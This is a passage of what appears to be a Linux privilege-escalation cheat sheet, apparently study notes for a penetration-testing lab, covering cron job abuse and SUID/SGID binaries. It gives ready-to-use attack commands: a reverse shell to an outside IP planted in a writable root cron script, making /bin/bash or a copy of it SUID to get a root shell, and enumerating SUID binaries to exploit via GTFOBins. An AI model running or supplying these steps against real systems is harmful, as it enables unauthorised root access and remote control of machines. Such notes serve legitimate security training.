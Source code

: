 or 

`find / -name overwrite.sh 2> /dev/null`

Verify that is is writable

`ls -l /usr/local/bin/overwrite.sh`

replace content with

```
#!/bin/bash  
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1

```

start a listener and wait for connection

### Cron Jobs - PATH Environment Variable

If you can execute one command as root, do the following

`chmod +xs /bin/bash`
`/bin/bash -p`

If you find a cronjob running in root privilege, echo the commmand in bash script.

Alternatively, (more safe), add the following to the bash script

```
#!/bin/bash  
  
cp /bin/bash /tmp/rootbash  
chmod +xs /tmp/rootbash
```

then run

`/tmp/rootbash -p`



### Cron Jobs - Wild Cards

Check if `tar` 
`cat /usr/local/bin/compress.sh | grep tar | grep '*'`


## SUID SGID
### Known Exploits

Find all the SUID/SGID executables

`find / -type f -perm -04000 -ls 2>/dev/null`

go back to GTFOBins and check what executable you can exploit to gain a shell

Check what executable is vulnerable

